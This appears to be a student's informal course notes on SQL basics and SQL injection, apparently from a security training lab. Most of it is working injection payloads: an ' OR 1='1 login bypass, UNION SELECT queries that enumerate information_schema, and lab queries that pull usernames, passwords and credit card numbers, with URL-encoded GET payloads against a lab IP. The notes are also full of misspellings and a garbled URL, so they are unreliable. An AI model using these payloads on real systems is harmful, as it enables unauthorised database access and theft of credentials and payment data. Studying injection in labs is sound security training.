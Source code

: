 default database

use information _scheam
contains information about all other databses

will find databses names, columns

show tables

Commands, such as below, 
are standardized across vendors, 
and can accomplish almost all tasks inside a Database:
SELECT
UPDATE
DELETE
CREATE
DROP



# Basic SQL Commands:
USE                  Select the database to use**
SELECT               extract data from databse
UPDATE               update data in a database
DELETE               delete data from a database
INSERT INTO          insert new data into a databse
CREATE DATABSE       create a new database
ALTER DATABASE       modify a existing databse
CREATE TABLE         create a new table
DROP TABLE           delete an existing table
CREATE INDEX         create an index
DROP INDEX           delete an index
UNION                combine the result-set of twoo or more equal statements

informations schema
->tables
--->columns
----->table

golden statement
select table_schema,table_name,column_name from informations_schema.columns ;

show tables from session

select name,cost,color from session.car ;
select name,size,cosr from session.tires ;

# do activity 
https://sqlbolt.com/lesson/select_queries_introduction

# login/auth bypass
login:  ' OR 1='1
passw:  ' OR 1='1
go into web dev
copy raw post request
add ? after php
paste raw post request
tells server to get all thst infomstion to grab more information
result was the dumping of user information

## step one id vulnerable field bt fuzzing (post method)
interact " 'audi' OR 1='1 "
->show query
--> golden statement "select name, type, cost, color, year from car where name='ford'"
--> golden statement "select name, type, cost, color, year from car where name='dodge'"

## step two
once identified, test for my columns
audi 'UNION SELECT 1,2,3,4,5 #
 golden statement
 UNION SELECT table_schema,table_name,column_name from information_schema.columns #

# edit goldne statemtn
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
Audi ' UNION SELECT type,2,cost,color,year from session.car #
Audi ' UNION SELECT carid,2,type,name,year from session.car #

### record the databses as such
databases:
session
      tires
          tireid
          name
          size
          cost
      car
          rgagasd
          gasgdsa
          werqsa
          
## step one id vulnerable field bt fuzzing (get method)
pay attention to url and what changes with each selection
http://10.50.36.14/uniondemo.php?Selectionhttp://10.50.36.14/uniondemo.php?Selection=2%20UNION%20SELECT%20id,name,pass%20from%20session.user=4 OR 1=1
after fuzzing, only 1 is properly configured, all others (2,3,4) are vulnerable

## step two: identify how many columns
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT 1,2,3
 Displayed 1,3,2

## step 3 edit golden statement to dump database (same as post method)
copy golden statement but swap table name and column name to format correctly
 UNION SELECT table_schema,table_name,column_name from information_schema.columns 
 UNION SELECT table_schema,column_name,table_name from information_schema.columns 
pass the golden statemnet after the selection=2 into url 
10.50.36.14/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name from information_schema.columns

## step 4 craft queries get mone
10.50.36.14/uniondemo.php?Selection=2 UNION SELECT id,name,@@version from information_schema.columns
http://10.50.36.14/uniondemo.php?Selection=2%20UNION%20SELECT%20id,name,pass%20from%20session.user
input validation is the biggest defense against this in the fmf 

### activity op notes

ram 'UNION SELECT table_schema,table_name from information_schema.columns#

ram 'UNION SELECT table_name, column_name from information_schema.columns#

ram 'UNION SELECT permission, username from sqlinjection.members#

ram 'UNION SELECT username, password from sqlinjection.members#

ram 'UNION SELECT permission, username from sqlinjection.members#

ram 'UNION SELECT 1, id from sqlinjection.categories# <- not 1337

ram 'UNION SELECT 1, id from sqlinjection.orderlines#

ram 'UNION SELECT 1, id from sqlinjection.orders#

ram 'UNION SELECT 1, id from sqlinjection.payments#

ram 'UNION SELECT 1, id from sqlinjection.permissions#

ram 'UNION SELECT 1, id from sqlinjection.products#

ram 'UNION SELECT 1, 2 id from sqlinjection.share4#

ram 'UNION SELECT 1, creditcard_number from sqlinjection.payments#

ram 'UNION SELECT 1, @@version from sqlinjection.payments#

ram 'UNION SELECT name, id from sqlinjection.products#

ram 'UNION SELECT description, price from sqlinjection.products#

ram 'UNION SELECT qty_left, category from sqlinjection.products#


golden statement 
UNION SELECT table_schema,table_name,column_name from information_schema.columns #

information_schema
	->Tables
		->columns
			->table_schema
			->table_name
			->column_name



